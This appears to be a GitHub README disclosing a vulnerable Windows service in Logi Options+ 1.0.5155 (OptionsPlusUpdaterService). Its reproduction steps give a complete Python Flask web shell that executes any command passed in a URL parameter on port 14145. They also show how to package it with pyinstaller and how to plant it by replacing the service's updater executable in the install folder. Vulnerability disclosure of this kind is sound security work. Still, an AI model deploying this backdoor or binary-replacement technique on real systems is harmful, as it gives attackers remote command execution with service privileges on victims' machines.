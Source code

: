 # windows Logi OptionsPlus OptionsPlusUpdaterService is Vulnerable Services

test on windows 11 22000.1098   Logi Options+ 1.0.5155

#Vulnerability reproduction

The first step：open services.msc find OptionsPlusUpdaterService
![image](https://github.com/happy0717/windows-Logi-OptionsPlus-OptionsPlusUpdaterService-is-Vulnerable-Services/blob/main/pic1.png)

Step 2：Prepare a malicious program
![image](https://github.com/happy0717/windows-Logi-OptionsPlus-OptionsPlusUpdaterService-is-Vulnerable-Services/blob/main/pic2.png)

    from flask import Flask, request
    import os

    app = Flask(__name__)

    @app.route('/')
    def hello_world():
        r = request.args.getlist('cmd')  #Reception? cmd= parameter
        a=os.popen(r[0])  #Execute system commands
        l = a.read()
        return l  #return

    if __name__ == '__main__':
        app.run(host='0.0.0.0', port=14145, debug=True)  #Listen HTTP port 14145



I was useing python3 flask write a malicious exe .It can listenHTTP port 14145 and execute system commands.
Using commands pyinstaller.exe --onefile --windowed -F -w python_test.py make a malicious exe.


Step 3：Put malware into Logi OptionsPlus installation path,and rename malware to logioptionsplus_updater.exe.
for me Logi OptionsPlus installation path is :C:\Program Files\LogiOptionsPlus
1.Delete the old logioptionsplus_updater.exe or anything to make logioptionsplus_updater.exe disappear
2.Put malware into Logi OptionsPlus installation path,and rename malware to logioptionsplus_updater.exe

